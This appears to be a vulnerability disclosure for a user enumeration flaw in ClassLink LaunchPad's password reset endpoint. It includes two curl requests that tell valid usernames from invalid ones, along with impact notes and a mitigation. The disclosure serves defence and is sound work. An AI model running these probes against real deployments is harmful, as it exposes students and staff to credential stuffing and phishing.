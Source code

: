 # ClassLink User Enumeration Vulnerability (Unauthenticated)

## Summary

A user enumeration vulnerability was discovered in the ClassLink LaunchPad password reset feature. By sending a `POST` request to the `/user/resetpassword/options` endpoint with different usernames, it is possible to distinguish valid accounts based on the application's response. This behavior allows attackers to enumerate valid usernames, which could be used in further attacks like credential stuffing or phishing.

## Affected System

- **Product:** ClassLink LaunchPad (SSO Portal)
- **Vendor:** ClassLink, Inc.
- **Tested As Of:** July 2025
- **Version:** Unknown (cloud-hosted)

## Vulnerability Details

POST /user/resetpassword/options

- A **valid username** returns a response containing a verification token.
- An **invalid username** returns: `"Password Recovery is not set up"`

This difference allows attackers to enumerate users without authentication.

curl -X POST https://<target-domain>/user/resetpassword/options \
     -d "username=valid.user" \
     -H "Content-Type: application/x-www-form-urlencoded"

Expected: JSON response containing a verificationToken.

curl -X POST https://<target-domain>/user/resetpassword/options \
     -d "username=invaliduser" \
     -H "Content-Type: application/x-www-form-urlencoded"

Expected: "Password Recovery is not set up"

Impact

    Allows attackers to discover valid usernames.

    Increases risk of password spraying, credential stuffing, and phishing attacks.

    Particularly sensitive due to use in K–12 educational environments.

Mitigation

The server should return the same generic response for both valid and invalid usernames to prevent enumeration.
Disclosure

    Reported by: Hardly Strange (Independent Security Researcher)


<img width="1409" height="566" alt="Screenshot 2025-07-24 at 2 35 10 PM" src="https://github.com/user-attachments/assets/60b2903b-6944-4a0e-806b-7fc438639b7a" />
<img width="492" height="210" alt="image" src="https://github.com/user-attachments/assets/1152005f-7d27-4339-bf59-acd183c67989" />

